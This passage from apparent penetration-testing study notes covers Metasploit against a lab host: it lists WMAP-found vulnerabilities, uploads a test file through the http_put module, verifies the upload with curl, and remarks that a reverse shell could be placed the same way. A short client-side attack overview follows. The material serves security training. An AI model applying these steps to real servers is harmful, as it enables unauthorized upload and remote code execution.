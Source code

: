 - List WMAP found vulnerabilities

```bash
wmap_vulns -l
```

- Since the allowed methods are `POST`, `OPTIONS`, `GET`, `HEAD`, exploit the vulnerability with the use of `auxiliary/scanner/http/http_put` module to upload a file into the `/data` directory
  - 📌 A reverse shell payload can be uploaded and run on the target.

```bash
use auxiliary/scanner/http/http_put
options
set PATH /data/
set FILEDATA "File uploaded"
set FILENAME file.txt
run
```

![Metasploit - auxiliary/scanner/http/http_put](.gitbook/assets/image-20230415171358249.png)

- Test if the file has been uploaded correctly

```bash
curl http://192.28.60.3:80/data/file.txt
```

## [Client-Side Attacks](https://www.offsec.com/metasploit-unleashed/client-side-attacks/) with MSF

A **client-side attack** is a security breach that happens on the client side.

- Social engineering techniques take advantage of human vulnerabilities
- Require user-interaction to open malicious documents or portable executables (**`PEs`**)
- The payload is stored on the client's system
- Attackers have to pay attention to Anti Virus detection
